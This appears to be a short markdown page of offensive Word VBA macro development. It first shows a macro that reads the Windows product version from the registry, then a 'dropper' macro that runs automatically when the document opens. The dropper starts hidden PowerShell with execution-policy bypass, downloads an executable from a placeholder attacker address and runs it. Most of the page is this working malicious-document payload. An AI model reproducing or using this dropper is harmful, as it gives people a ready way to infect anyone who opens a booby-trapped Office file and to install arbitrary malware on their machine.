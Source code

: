 ## VBA Macro Development

#### Initial Test
- VBA script in word to retrive ProductVersion
  
```
Sub Document_Open()
  reg
End Sub

Sub AutoOpen()
  reg
End Sub

Sub reg()
  Dim wsh as Object
  set wsh = CreateObject("Wscript.shell")

  Dim RegKey as String
  set RegKey = "\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Nt\CurrentVersion"
  MsgBox "Product Version: " & wsh.RegRead(regKey & "\ProductName")
  
End Sub
```

#### Powershell script With Dropper

```
Sub AutoOpen()
  dropper
End Sub

Sub Document_Open()
  dropper
End Sub

Sub dropper()
  Dim url as String
  Dim scriptPath as String
  url = "http://$ip:$port/file.exe"
  scriptPath = "Invoke-WebRequest -Uri """ & url & """ -OutFile ""C:\Users\Admin\file.exe"";" & vbCrLf & _
  "Start-Process -FilePath ""C:\Users\Admin\file.exe"""

  Shell "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command """ & scriptPath & """"
End Sub
```
